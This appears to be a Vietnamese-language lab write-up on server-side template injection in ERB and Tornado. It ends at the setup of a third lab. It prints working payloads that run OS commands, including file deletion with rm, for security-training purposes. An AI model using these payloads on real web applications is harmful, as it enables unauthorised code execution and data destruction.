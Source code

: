 # Trần Mạnh Huy  SSTI-Server side template injection

* [Lab 1: Basic server-side template injection](#lab-1-basic-server-side-template-injection)
* [Lab 2: Basic server-side template injection (code context)](#lab-2-basic-server-side-template-injection-code-context)
* [Lab 3: Server-side template injection using documentation](#lab-3-server-side-template-injection-using-documentation)

## Lab 1: Basic server-side template injection

```
 This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

```

### Ở bài lab này thì biết được luôn template là ERB, hoặc kh thì ta lên Payload All The Things thử từng cái một cũng được.

Đầu tiên check view details từng sản phẩm, để ý ở sản phẩm đầu tiên trả về message = ***Unfortunately this product is out of stock***, còn những cái khác còn nên vẫn vào bình thường, khai thác SSTI ở đây bằng cách dùng payload hoạt động được trên template erb, khi chạy qua template engine để xử lí, nó sẽ được thực thi. 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_01.jpg)

#### Test payload để xác nhận là ssti của erb template: <%= 7*7 %> . Ta được server trả về kết quả: 49. Vậy là xác nhận xong

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_02.jpg)

#### Tiếp theo đến với việc khai thác, sử dụng **<%= system('pwd') %>** để kiểm tra xem đang nằm ở đâu hoặc dùng **<%= system('ls /) %>** để xem thư mục gốc chứa những file hay folder nào :

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_03.jpg)

#### Vậy là đang ở trong thư mục /home/carlos . Để hoàn thành thì ls thử được file **morale.txt** . Việc còn lại để hoàn thành bài lab chỉ cần delete file là xong.
Dùng payload: ***<%= system('rm morale.txt) %>***

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab1_04.jpg)

## Lab 2: Basic server-side template injection (code context)

```
 This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

```

#### Bài lab này cần đăng nhập tài khoản, wiener:peter . Sau khi đăng nhập thì check thử phần my account, ta thấy có phần update email với phần preferrd name có thể thực hiện giao thức POST. 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_01.jpg)

Thử để giá trị ***first name*** và ***name*** và check phần comment thử: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_02.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_03.jpg)

Rõ ràng là server đã dùng tags để xử lí logic qua template engine, ở đây là template Tornado. Cụ thể ta có check ở burp suite sau khi sửa dổi phần ***preferred name*** thành ***username***và ***submit*** được như sau:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_04.jpg)

Để ý thấy phần display=user.username, đúng chuẩn xử lí tags trong template engine luôn, đến đây thay bằng 1 sô payload của Tornado ssti như sau:


```
{{7*7}} = 49
${7*7} = ${7*7}
{{foobar}} = Error
{{7*'7'}} = 7777777
______
{% import foobar %} = Error
{% import os %}

{% import os %}

{{os.system('whoami')}}
{{os.system('whoami')}}
_______

```
Vì user.username đã ở sẵn trong filters (chuyển hóa các giá trị của biến và đối số trong tags) có dạng {{}} nên test chỉ việc dùng 7*7 thay vào chỗ user.username. Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_05.jpg)

#### Bây giờ thực hiện code để xóa file morale.txt thôi nào: 

Dùng payload sau để hiển thị đường dẫn thư mục hiện tại:

```
{% import os %}

{{os.system('whoami')}}

```
Lúc đầu thử truyền vào giá trị {%+import+os+%}+{{os.system('pwd')}} thì toàn hiển thị lỗi, sau 1 lúc thử lại thì nhớ ra là biến đang được xử lí trong filter/tags {{}} . Vì vậy để truyền vào giá trị trên thì cần sửa payload như sau: ***user.nickname}}{%+import+os+%}+{{os.system('pwd')*** . Lúc này template engine sẽ xử lí: {{user.nickname}} {% import os %} và {{os.system('pwd'}}. Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/lab2_06.jpg)

#### Đến đây thì tương tự như bài trên, đang ở đường dẫn: /home/carlos nên sửa **pwd** thành **ls** sẽ có file morale.txt được hiển thị. Để giải quyết bài lab, sửa payload thành : 

```
***user.nickname}}{%+import+os+%}+{{os.system('rm morale.txt')*** 
```

Như vậy là ta đã xóa được file morale.txt như bài lab mong muốn.

> Reference link payload: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Lab 3: Server-side template injection using documentation

```
 This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r

```

